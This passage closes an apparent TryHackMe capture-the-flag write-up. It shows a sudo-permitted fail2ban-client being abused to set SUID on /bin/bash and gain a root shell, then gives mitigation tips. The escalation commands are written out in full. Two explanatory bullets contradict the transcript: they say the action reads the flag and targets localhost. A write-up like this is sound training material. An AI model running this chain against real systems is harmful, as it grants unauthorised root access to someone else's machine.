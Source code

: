 ```bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@Billing$ sudo /usr/bin/fail2ban-client get asterisk-iptables  actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables addaction evil
evil
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.5
1
asterisk@Billing$ /bin/bash -p
bash-5.1# cat /root/root.txt
THM{REDACTED}
```

- `actionban` is overridden with a command that reads the root flag.
- Triggered using `banip` on localhost to execute the payload.

 Root flag obtained.

This gives a persistent root shell.

### 

### Mitigation Recommendations

- Update MagnusBilling to a secure, patched version.
- Restrict `sudo` permissions to trusted commands only.
- Isolate unnecessary services (SSH, MySQL) from public networks.

### Final Thoughts

This room sharpened my skills in:

- Enumerating services thoroughly.
- Recognizing known software and researching public exploits.
- Abusing defensive tools like Fail2Ban for privilege escalation.

More than just capturing a flag, this exercise taught me how attackers think and how defenders must anticipate these creative attack paths.

Stay curious. Hack smart. Harden everything.
